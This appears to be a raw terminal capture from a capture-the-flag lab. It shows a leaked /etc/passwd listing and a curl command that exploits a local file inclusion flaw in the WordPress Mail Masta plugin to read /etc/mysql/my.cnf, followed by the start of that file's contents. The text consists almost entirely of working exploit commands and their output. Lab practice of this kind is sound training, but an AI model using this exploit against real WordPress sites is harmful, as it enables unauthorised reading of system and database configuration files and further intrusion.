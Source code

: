 news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
elyana:x:1000:1000:Elyana:/home/elyana:/bin/bash
mysql:x:110:113:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
ftp:x:111:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
systemd-timesync:x:113:116:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
tss:x:114:119:TPM software stack,,,:/var/lib/tpm:/bin/false
tcpdump:x:115:120::/nonexistent:/usr/sbin/nologin
usbmux:x:116:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
fwupd-refresh:x:117:121:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1001:1002:Ubuntu:/home/ubuntu:/bin/bash
                                                                                                                                                             
┌──(kali㉿kali)-[~]


┌──(kali㉿kali)-[~]
└─$ curl -s "http://10.10.209.153/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/mysql/my.cnf"

# The MariaDB configuration file
#
# The MariaDB/MySQL tools read configuration files in the following order:
# 1. "/etc/mysql/mariadb.cnf" (this file) to set global defaults,
# 2. "/etc/mysql/conf.d/*.cnf" to set global options.
# 3. "/etc/mysql/mariadb.conf.d/*.cnf" to set MariaDB-only options.
# 4. "~/.my.cnf" to set user-specific options.
#
# If the same option is defined multiple times, the last one will apply.
#
# One can use all long options that the program supports.